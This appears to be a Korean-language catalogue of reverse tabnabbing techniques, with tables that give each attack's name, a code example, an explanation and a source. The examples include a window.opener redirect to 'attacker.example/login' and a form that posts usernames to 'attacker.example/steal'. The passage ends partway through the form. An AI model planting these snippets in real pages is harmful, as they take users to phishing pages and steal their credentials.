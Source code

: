### Mutation
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Origin Tab Redirect</td>
      <td><pre><code>html
&lt;script>
if (window.opener) { window.opener.location.replace('https://attacker.example/login'); }<br>&lt;/script></code></pre></td>
      <td>새로운 탭의 악성 스크립트가 window.opener를 이용해 원래 열려있던 탭의 위치를 공격자의 피싱 사이트로 변경한다.이로써 사용자가 보던 정상 웹사이트가 동일한 모습의 가짜 로그인 페이지로 순식간에 교체된다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Obfuscation
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>History Removal and UI Spoofing</td>
      <td><pre><code>window.opener.location.replace
("https://attacker.example/login");</code></pre></td>
      <td>공격 페이지는 location.replace()를 사용하여 원본 페이지를 피싱 페이지로 교체함으로써 브라우저 히스토리에서 원본 페이지를 제거한다. 사용자는 뒤로가기를 해도 이전 페이지로 돌아갈 수 없으며, 피싱 페이지가 제목, 디자인 등을 원본과 동일하게 꾸며둬 변화된 사실을 인지하지 못하게 한다.</td>
      <td>[B]</td>
    </tr>
  </tbody>
</table>

### Validation
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Credential Harvesting</td>
      <td><pre><code>html
&lt;form action="https://attacker.example/steal" method="POST">
&lt;input name="username"> 